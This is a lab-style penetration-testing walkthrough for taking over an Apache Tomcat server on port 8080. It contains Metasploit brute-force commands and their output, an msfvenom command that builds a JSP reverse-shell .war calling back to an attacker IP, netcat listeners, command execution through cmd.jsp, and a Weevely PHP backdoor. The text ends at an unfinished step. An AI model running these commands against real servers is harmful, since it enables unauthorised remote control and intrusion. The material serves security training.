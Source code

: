 # Exploting Tomcat on Port 8080

From our earlier Nmap and Nikto scans we have identified Tomcat as runnning on Port 8080.
```
+ /: Appears to be a default Apache Tomcat install.
+ /examples/servlets/index.html: Apache Tomcat default JSP pages present.
+ OSVDB-3720: /examples/jsp/snp/snoop.jsp: Displays information about page retrievals, including other users.
+ Default account found for 'Tomcat Manager Application' at /manager/html (ID 'tomcat', PW 'tomcat'). Apache Tomcat.
+ /manager/html: Tomcat Manager / Host Manager interface found (pass protected)
+ /host-manager/html: Tomcat Manager / Host Manager interface found (pass protected)
+ /manager/status: Tomcat Server Status interface found (pass protected)
```

## Attempt to Bruteforce authentication credentials using MetaSploit
Load up MetaSploit console and select the tomcat manager login module
`msf > use auxiliary/scanner/http/tomcat_mgr_login `

Show the options and supply the required information
```
Module options (auxiliary/scanner/http/tomcat_mgr_login):

   Name              Current Setting                                                                 Required  Description
   ----              ---------------                                                                 --------  -----------
   BLANK_PASSWORDS   false                                                                           no        Try blank passwords for all users
   BRUTEFORCE_SPEED  5                                                                               yes       How fast to bruteforce, from 0 to 5
   DB_ALL_CREDS      false                                                                           no        Try each user/password couple stored in the current database
   DB_ALL_PASS       false                                                                           no        Add all passwords in the current database to the list
   DB_ALL_USERS      false                                                                           no        Add all users in the current database to the list
   PASSWORD                                                                                          no        A specific password to authenticate with
   PASS_FILE         /usr/share/metasploit-framework/data/wordlists/tomcat_mgr_default_pass.txt      no        File containing passwords, one per line
   Proxies                                                                                           no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                                                                                            yes       The target address range or CIDR identifier
   RPORT             8080                                                                            yes       The target port
   SSL               false                                                                           no        Negotiate SSL/TLS for outgoing connections
   STOP_ON_SUCCESS   false                                                                           yes       Stop guessing when a credential works for a host
   TARGETURI         /manager/html                                                                   yes       URI for Manager login. Default is /manager/html
   THREADS           1                                                                               yes       The number of concurrent threads
   USERNAME                                                                                          no        A specific username to authenticate as
   USERPASS_FILE     /usr/share/metasploit-framework/data/wordlists/tomcat_mgr_default_userpass.txt  no        File containing users and passwords separated by space, one pair per line
e   USER_AS_PASS      false                                                                           no        Try the username as the password for all users
   USER_FILE         /usr/share/metasploit-framework/data/wordlists/tomcat_mgr_default_users.txt     no        File containing users, one per line
   VERBOSE           true                                                                            yes       Whether to print output for all attempts
   VHOST                                                                                             no        HTTP server virtual host

```

### Type `run`
```
msf auxiliary(tomcat_mgr_login) > run
T
[!] No active DB -- Credential data will not be saved!
[-] 172.31.6.2:8080 TOMCAT_MGR - LOGIN FAILED: tomcat:admin (Incorrect: )
[-] 172.31.6.2:8080 TOMCAT_MGR - LOGIN FAILED: tomcat:manager (Incorrect: )
[-] 172.31.6.2:8080 TOMCAT_MGR - LOGIN FAILED: tomcat:role1 (Incorrect: )
[-] 172.31.6.2:8080 TOMCAT_MGR - LOGIN FAILED: tomcat:root (Incorrect: )
[+] 172.31.6.2:8080 - LOGIN SUCCESSFUL: tomcat:tomcat
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed

```

## Use the Acquired Authentication credentials and login
* In a url modify the string in the address bar:

* Enter the authentication credentials discovered in the msf scan
![alt tag](https://user-images.githubusercontent.com/8903296/29285537-b60635f0-8126-11e7-926b-2cce147e56ec.PNG)

Scroll down the page and you will find a form that allows users to upload .war files
![alt tag](https://user-images.githubusercontent.com/8903296/29288490-d7b18ea2-8130-11e7-8cf0-3606619cc82b.PNG)

## Create the .war file
Create the .war file using msfvenom:
`msfvenom -p java/jsp_shell_reverse_tcp LHOST=172.27.233.187 LPORT=12345 -f war > r_jsp_shell_12345.war
Payload size: 1093 bytes`

## Create a netcat listener
`nc -nlvp 12345
listening on [any] 12345 ...
`

## Upload and Deploy the .war file
* Click the `Browse` button navigating to the created .war file
![alt tag](https://user-images.githubusercontent.com/8903296/29289641-3544a2da-8135-11e7-854f-929eb08272ce.PNG)
* Click Deploy

## Open up a listener 
`nc -nlvp 12345
listening on [any] 12345 ...`


When the shell connects escalate your privileges

# Alternative way of uploading a shell
The Tomcat manager has a directory containing cmd which will allow an authenticated user to run shell commands through the browser.

## Testing out the theory
In the address bar append `cmd/cmd.jsp?cmd=ls` to see if we can get a listing of the directory contents


## Use Weevely to generate a shell
`weevely generate passw0rd ~/Documents/infosecaddicts/tomcat.php
Generated backdoor with password 'passw0rd' in '/root/Documents/tomcat.php' of 1439 byte size.
`
# Upload the shell to the vulnerable webserver
In a terminal type `python -m SimpleHTTPServer`

Now in the browser enter ``
